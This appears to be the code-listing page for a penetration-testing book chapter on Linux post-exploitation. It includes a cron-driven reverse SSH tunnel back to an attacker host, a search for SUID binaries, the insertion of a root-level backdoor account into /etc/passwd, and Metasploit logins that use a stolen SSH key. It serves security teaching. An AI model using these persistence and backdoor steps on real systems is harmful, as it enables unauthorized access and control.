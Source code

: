 # Chapter 9 Instructions

### Listing 9.1 Creating a new SSH key pair

```
ssh-keygen -t rsa
```

### Listing 9.2 Using scp to transfer SSH public keys

```
ssh-copy-id piccolo@10.0.10.204
```

### Listing 9.3 Example sshd_config file enabling SSh public key authentication

```
sudo nano /etc/ssh/sshd_config
```

### Listing 9.4 Authenticating using an SSH key instead of a password

```
ssh piccolo@10.0.10.204
```

### Listing 9.5 Displaying listening ports with netstat

```
ssh -N -R 54321:localhost:22 kali@10.0.10.211
netstat -ant | grep -i listen
```

### Listing 9.6 Connecting to a tunneled SSH port

```
ssh pentest@localhost -p 54321
```

### Listing 9.7 Contents of the callback.sh script

```
#!/bin/bash
createTunnel(){
 /usr/bin/ssh -N -R 54321:localhost:22 kali@10.0.10.211
}
/bin/pidof ssh
if [[ $? -ne 0 ]]; then
 createTunnel
fi
```

```
crontab -e
1
*/5 * * * * /tmp/callback.sh
```

### Listing 9.8 Hidden .dot files and directories

```
ls -la
```

### Listing 9.9 Using cat + more to view .bash_history

```
cat .bash_history | more
```

### Listing 9.10 Normal execute permissions and SUID permissions

```
ls -lah /bin/ls
ls -lah /usr/bin/passwd
```

### Listing 9.11 Using find to search for SUID binaries

```
find / -perm -u=s 2>/dev/null
```

## 9.3.2 Inserting a new user into /etc/passwd

```
cp /etc/passwd passwd1
cp /etc/passwd passwd2
openssl passwd -1 -salt pentest P3nt3st!
```

### Listing 9.13 Modifying /etc/passwd to create a root user account

```
nano passwd1
pentest:$1$pentest$NPv8jf8/11WqNhXAriGwa.:0:0:root:/root:/bin/bash
```

### Listing 9.14 Backdooring the /etc/passwd file

```
cp passwd1 /etc/passwd
su pentest
id -a
```

### Listing 9.15 Contents of a user’s ~/.ssh directory

```
ls -l ~/.ssh
```

### Listing 9.16 Contents of an SSH private key

```
cat ~/.ssh/pentestkey
```

### Listing 9.17 Authenticating with the SSH Public Key Login Scanner module

```
msfconsole
use auxiliary/scanner/ssh/ssh_login_pubkey
set KEY_PATH /home/kali/stolen_sshkey
set rhosts 10.0.10.204
set username piccolo
set verbose false
run
```
